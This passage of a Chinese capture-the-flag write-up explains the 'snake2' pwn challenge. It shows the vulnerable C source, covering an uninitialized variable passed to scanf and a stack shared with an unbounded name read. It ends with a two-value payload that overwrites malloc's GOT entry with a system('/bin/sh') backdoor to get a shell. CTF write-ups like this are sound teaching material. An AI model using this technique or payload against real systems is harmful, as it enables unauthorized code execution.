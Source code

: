     ```c
    void getName(){
        char buf[0x100];
        printf("请输入玩家昵称(仅限英文)[按回车开始游戏]:");
        scanf("%s",buf);
        strncpy(Name, buf, 0x10);
    }
    ```
3. 多了一个调查问卷功能
    ```c
    void questionnaire(void){
        int Goal;
        char Answer[0x20];
        puts("你收到了一份来自TaQini的调查问卷");
        printf("1.Snake系列游戏中，贪吃蛇的名字是:");
        scanf("%20s",Answer);
        printf("2.Pwn/Game真好玩儿[Y/n]:");
        scanf("%20s",Answer);
        printf("3.你目标的分数是:");
        scanf("%d",Goal);
    }
    ```

通过**对比**可知，`snake1`的漏洞点在`getName`，`snake2`的漏洞点在`questionnaire`

```c
void GameRun(void) {
    unsigned int GameState=1;
    score=0;
    Level=1;
    printRule();
    getName();
    questionnaire();
    PSnake jack=Init();
    //...
}
```
查看`questionnaire`的上一层函数，可见`getName`和`questionnaire`用是**同一片栈空间**

按照[参考文章](https://blog.csdn.net/smalosnail/article/details/53247502)中的做法，利用`scanf`覆写got表为后门`system("/bin/sh")`的地址，即可getshell

比如，后续的`Init`函数中调用了`malloc`，因此可以覆写`malloc`的got表：

```c
PSnake head=(PSnake)malloc(sizeof(Node));
```
这题`malloc`的got表地址`0x405078`都是可见字符，解题时甚至不用写脚本
```shell
name = 'a'*220+'xP@' # xP@ <- (malloc.got)
goal = 4201717 # <- backdoor
```



## 鹅螺狮的方块(els) - TaQini
